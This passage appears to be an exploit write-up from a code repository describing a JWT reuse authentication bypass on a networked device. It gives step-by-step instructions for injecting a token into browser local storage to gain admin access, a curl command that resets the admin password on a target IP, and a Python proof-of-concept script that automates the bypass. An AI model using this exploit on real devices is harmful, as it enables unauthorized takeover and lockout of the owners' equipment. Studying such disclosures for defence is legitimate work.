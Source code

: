     2. Open the browser's developer console (F12)

    3. Insert the JWT into local storage:

    ```javascript
    localStorage.setItem("jwt", '"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."');
    ```
    Ensure the value starts and ends with `"`
    Example:
    ```javascript
    localStorage.setItem("jwt", '"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."');
    ```
✅ **Step 3: Refresh the Browser**

    Refresh the page (F5)

    The device will log in as an admin without requiring a password!

✅ **Step 4: Confirm Access and Exploit the Device**
change the admin password:
```bash
curl -X GET 'http://208.129.3.4/setPassword' \
 -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..'\   
 --data-raw '{"user":"admin","password":"admin"}' 
```
Example Response:
```json
{
  
}

```

---

## **Automated Exploit (Python PoC Script)**

The following Python script automates the attack process:
```paython
import requests
import json

# Source Device Login
source_device = "http://137.18.2.1/login"
target_device = "http://208.129.3.4/ntpinfo"

login_data = {
    "username": "admin",
    "password": "passd1"
}

# Step 1: Get JWT from Source Device
response = requests.post(source_device, json=login_data)
jwt = response.json().get("jwt")

print(f"[+] JWT obtained: {jwt}")

# Step 2: Use JWT on Target Device
headers = {
    "Authorization": f"Bearer {jwt}"
}

# Step 3: Access Target Device
response = requests.get(target_device, headers=headers)

if response.status_code == 200:
    print("[+] Authentication Bypass Successful!")
```